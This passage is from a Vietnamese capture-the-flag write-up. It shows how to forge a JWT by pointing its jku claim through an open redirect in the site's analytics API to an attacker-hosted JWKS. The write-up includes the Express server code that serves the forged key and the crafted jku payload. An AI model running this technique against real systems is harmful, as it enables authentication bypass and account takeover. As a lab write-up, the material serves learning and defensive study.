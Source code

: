 Vậy làm sao để crack nó? Thì ở đây mình sẽ tạo một cái public và private key bằng keyid của JWT trên trang web https://mkjwk.org/
    
![image](https://hackmd.io/_uploads/rk9kt9Lryg.png)

Sử dụng trình chuyển dổi sang file pem https://8gwifi.org/jwkconvertfunctions.jsp thì mình có kết quả sau
    
![image](https://hackmd.io/_uploads/SJgFlYcUSke.png)

Nhưng còn 1 vấn đề là jwt sử dụng jku từ url http://127.0.0.1:1337/.well-known/jwks.json để check signature nhưng key ở trên mình generate ra thì không trùng với của web
    
![image](https://hackmd.io/_uploads/S11YDF5HJx.png)

Đọc lại thì có đoạn này để check jku 
    
```js
// TODO: is this secure enough?
if (!jku.startsWith('http://127.0.0.1:1337/')) {
    throw new Error('Invalid token: jku claim does not start with http://127.0.0.1:1337/');
}
```
    
Vậy là jku phải bắt đầu bẳng url http://127.0.0.1:1337/ nên mình không thể sử dụng file từ bên ngoài. Nhưng ... Ở đây mình có thể tận dụng api analytics của web để redirect tới web của mình
    
Mình thực hiện host một service express sau và kết nối ngrok : 
    
```js
const express = require('express')

const app = express()

app.get('/', (req, res) => {
    res.status(200).send("Hello")
})

app.get('/jwks.json', (req, res) => {
    const a = {"keys":[{"kty":"RSA","n":"n10fUYzMMWdWlidSZI3Azj6J8EH57ex7wiefQboOYEUskaC3Mx9SDD96ch2STzoLgmOaqO_-Y8R5lbh9o_UYPrebaJY1OnGhLmGFxh6x2jDIWYdeixuQ8TpmnMUfmX6UGT5zQf-CYdJgKtmmDfxL0B3cbkJ-PNs4uIqiYzXXNO2BMRtJGodsrfVBPDjvyGG9Q7L_CRu95Zo5cLP3iaqIVHfZim23Pryq2iADefdbwJhaBNZzzGlxN2a_8u7o7exF2S09gcB5-5UOxoYzr34rdDd-PySFIYw1E_n5RqyT_kkxLzg_lhUYN4XxjaAxusMXsu1yMVMMohMFqii_iCoypQ","e":"AQAB","alg":"RS256","use":"sig","kid":"f49fbd81-b201-4137-9410-186e64a1d551"}]}
    res.status(200).json(a)
})

app.listen(5000, "127.0.0.1", () => {
    console.log("Connect to 5000")
})    
```
    
Sau đó sử dụng payload sau để giả jku
    
`"jku": "http://127.0.0.1:1337/api/analytics/redirect?ref=a&<NGROK-SERVER>`
    